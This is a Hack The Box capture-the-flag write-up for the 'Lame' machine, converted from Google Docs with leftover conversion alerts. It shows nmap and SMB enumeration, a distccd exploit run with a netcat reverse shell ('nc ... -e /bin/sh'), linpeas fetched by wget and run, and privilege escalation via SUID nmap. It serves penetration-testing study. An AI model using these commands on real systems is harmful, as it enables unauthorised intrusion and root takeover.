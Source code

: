 # HTB_Writeups - Lame

<!-----
NEW: Check the "Suppress top comment" option to remove this info from the output.

Conversion time: 1.607 seconds.


Using this Markdown file:

1. Paste this output into your source file.
2. See the notes and action items below regarding this conversion run.
3. Check the rendered output (headings, lists, code blocks, tables) for proper
   formatting and use a linkchecker before you publish this page.

Conversion notes:

* HTML and Markdown from Docs version 1.0
* Sun Aug 21 2022 03:39:01 GMT-0000 (UTC)
* Source doc: Gus's Notebook conv
* This document has images: check for >>>>>  gd2md-html alert:  inline image link in generated source and store images to your server. NOTE: Images in exported zip file from Google Docs may not appear in  the same order as they do in your doc. Please check the images!

----->


<p style="color: red; font-weight: bold">>>>>>  gd2md-html alert:  ERRORs: 0; WARNINGs: 0; ALERTS: 11.</p>
<ul style="color: red; font-weight: bold"><li>See top comment block for details on ERRORs and WARNINGs. <li>In the converted Markdown or HTML, search for inline alerts that start with >>>>>  gd2md-html alert:  for specific instances that need correction.</ul>

<p style="color: red; font-weight: bold">Links to alert messages:</p><a href="#gdcalert1">alert1</a>
<a href="#gdcalert2">alert2</a>
<a href="#gdcalert3">alert3</a>
<a href="#gdcalert4">alert4</a>
<a href="#gdcalert5">alert5</a>
<a href="#gdcalert6">alert6</a>
<a href="#gdcalert7">alert7</a>
<a href="#gdcalert8">alert8</a>
<a href="#gdcalert9">alert9</a>
<a href="#gdcalert10">alert10</a>
<a href="#gdcalert11">alert11</a>

<p style="color: red; font-weight: bold">>>>>> PLEASE check and correct alert issues and delete this message and the inline alerts.<hr></p>



    Lame 


    Wednesday, July 27, 2022 9:27 PM 


    Started off with a nmap scan.  


    nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3 


    TEs3 


    While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done. 


    We get back some nice info to start us off. 


    Port 80 isn't open so there was no site for me to check. 


    But there was other ports open such as port 21 with the version number of vsftpd 2.3.4 (This version of vsftpd is vulnerable to backdoor command execution CVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck again then go back and try to repeat your steps to make sure you didn't make a typo somewhere. 



<p id="gdcalert1" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image1.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert2">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image1.png "image_tooltip")


<p id="gdcalert2" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image2.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert3">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image2.png "image_tooltip")
I see that smb is open. 139/445. I run smbmap -H 10.10.10.3 and get back some users.  



<p id="gdcalert3" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image3.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert4">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image3.png "image_tooltip")
1


    we can see that tmp is READ, WRITE. Lets login and see what we can find. 


    I use smbclient <span style="text-decoration:underline;">\\\\10.10.10.3\\tmp and we get a hit</span>. I use lsto see what we can find. Unfortunately there is nothing here either. We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking. 


     HTB Page 1 



<p id="gdcalert4" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image4.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert5">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image4.png "image_tooltip")


I go back to the nmap results and see port 3632 is open and it gave us the version of application running. distccd v1 

I go to google and search for "distccd v1 exploit" first link brings us to <span style="text-decoration:underline;">https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855</span> 

after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is command, host, port 

If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.  

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did chmod +x CVE-2004-2687.py 

the file is ready to be used. First I started a listener on my attacking machine with nc -lvnp 9001 and then used the following command 

./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" No good, got errors. Then I tried. 

python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" I got a connected to remote service Ok but then the 

socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.  

So I was going to work my way down from python3 to python. Next up, 

python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" Success, we get a shell! 



<p id="gdcalert5" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image5.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert6">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image5.png "image_tooltip")




<p id="gdcalert6" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image6.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert7">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image6.png "image_tooltip")


Let's upgrade the shell. I used the following. 

python -c 'import pty; pty.spawn("/bin/bash")' python3 and python2 didn't work.  

export TERM=xterm 

stty raw -echo && fg 

enter 

enter 

We're a normal user daemon. I started off with sudo -l but it asked for a password. Let's move on. 

I look around a bit and cd /home directory and do a ls and see what's there. Nothing good in the user directory but I did go into makis and find the user.txt file. I do a cat user.txt at it and we get out our first flag.  

<p id="gdcalert7" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image7.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert8">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image7.png "image_tooltip")




<p id="gdcalert8" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image8.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert9">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image8.png "image_tooltip")


Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh 

I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine. I use python3 -m http.server 80 get the server up and running. 

On the victim machine ill be in the /tmp directory and use wget://10.10.14.10/linpeas.sh which is my attacking machines ip from HackTheBox. 

The file gets transferred over no problem. I use the chmod +x linpeas.sh making it an executable file. 

I use ./linpeas.sh and it kicks off no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.  HTB Page 2 



<p id="gdcalert9" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image9.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert10">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image9.png "image_tooltip")


<p id="gdcalert10" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image10.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert11">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image10.png "image_tooltip")


<p id="gdcalert11" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image11.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert12">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


![alt_text](images/image11.png "image_tooltip")



    the /usr/bin/nmap suid 


    I head over to <span style="text-decoration:underline;">https://gtfobins.github.io/ </span>and search for nmap 


    I cd /usr/bin where the suid is located. 


    I start off with shell code (a) and nothing happened. So I keep going down the list.  


    Shell (b) worked! 
